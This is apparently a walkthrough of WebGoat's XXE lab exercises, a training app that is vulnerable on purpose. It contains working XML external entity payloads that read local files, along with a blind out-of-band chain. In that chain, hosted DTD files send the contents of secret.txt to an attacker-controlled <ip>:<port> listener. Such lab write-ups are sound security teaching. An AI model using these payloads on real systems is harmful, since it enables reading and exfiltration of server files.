 # XML External Entities (XXE)
## XXE
### Number 3
![XXE n.3](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/04_01.png)

To resolve this exercise you can read also this [documentation](https://portswigger.net/web-security/xxe).

We try to submit some text and with zap we can see and modify the request. As we can see it's a simple XML comment. So we can make it to list all the directory as we study in the previous blocks of this chapter.

Original Request:
```
<?xml version="1.0"?><comment> <text>ciao</text></comment>
```
New one:
```
<?xml version="1.0"?>
<!DOCTYPE user [
 <!ENTITY root SYSTEM "file:///">
]>
<comment> <text>&root;</text></comment>
```
### Number 4
![XXE n.4](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/04_02.png)

Some documentation at this [link](https://blog.netspi.com/playing-content-type-xxe-json-endpoints/).

As we can see by the solution of the previous exsercise we need to inject a xml.

We try same example and we proxy with ZAP. As we read in the link in the Resources, we can try to check if the server can read xml modifying the Content-type to: application/xml and we read the error of the response.

Now we can modify the request and add the same payload of the previous exercise.
```
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Referer: https://localhost:8080/WebGoat/start.mvc
Content-Type: application/xml
X-Requested-With: XMLHttpRequest
Content-Length: 109
DNT: 1
Connection: keep-alive
Cookie: JSESSIONID=64CA23D9D89C685F57A7AE4A8EC0FC3F
Host: localhost:8080
<?xml version="1.0"?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///">]><comment><text>&root;</text></comment>
```
### Number 6
This is not a very exercise, but it is important to do to learn how to resolve the number 7. We use the 7 part to test our solution.

![XXE n.6](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/04_03.png)

We need to create a dtd file and upload it on a web server (We can use WebWolf for hosting and download the resources from \<ip\>:\<port\>/files/\<username\>/\<filename\>).

File Name: ping.dtd
```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % command "<!ENTITY ping SYSTEM 'http://<ip>:<port>/landing'>">%command;
```
Now we need to intercept a post request for the comment and modify it to match this:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [
<!ENTITY % dtd SYSTEM "http://<ip>:<port>/files/ping.dtd">
%dtd;]>
<comment>
<text>&ping;</text>
</comment>
```
Then we can go in WebWolf and see in the "Incoming Requests" there is a request with our parameters.
### Number 7
![XXE n.7](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/04_04.png)

In this case we need to find a file and then use is content as parameter for the request as we did in the 6 part.

I use Vagrant(VirtualBox) to host WebGoat so for me the ```secret.txt``` file is in ```/home/vagrant/.webgoat-8.0.0.M21/XXE/secret.txt```.

Now we need a new dtd file that contains the command of comment like in the example 6, but this time we use as parameter the content of the file.
```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % command "<!ENTITY send SYSTEM 'http://<ip>:<port>/landing?%file;'>">%command;
```
As before we intercept the POST request and modify it to match this:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [
<!ENTITY % file SYSTEM "file:///home/vagrant/.webgoat-8.0.0.M21/XXE/secret.txt">
<!ENTITY % dtd SYSTEM "http://<ip>:<port>/files/clownfire/upload_file.dtd">
%dtd;]>
<comment>
<text>&send;</text>
</comment>
```
Now we go in the "Incoming Requests" in WebWolf and read the content of the requests ```(WebGoat 8.0 rocks...(MDsnUMzhZu))```. Now submit it to WebGoat.
